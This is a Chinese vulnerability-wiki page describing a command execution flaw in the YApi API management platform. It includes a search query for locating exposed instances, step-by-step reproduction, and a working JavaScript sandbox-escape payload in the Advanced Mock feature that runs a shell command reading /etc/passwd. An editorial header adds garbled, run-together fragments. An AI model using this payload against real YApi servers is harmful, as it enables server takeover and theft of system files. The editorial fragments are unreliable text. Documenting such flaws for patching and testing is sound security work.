


# YApi 接口管理平台 后台命令执行漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Same as52
- 证据范围：Fulltextmatches52 substantivecontent/code/imagefilenames

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Same missingrange/authrole/fix as52
- Extra blanklines;duplicate import

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面


首先需要注册账户并登录


添加项目，参数任意


创建后点击 高级Mock 输入如下Payload


```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```





预览处点击项目链接




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
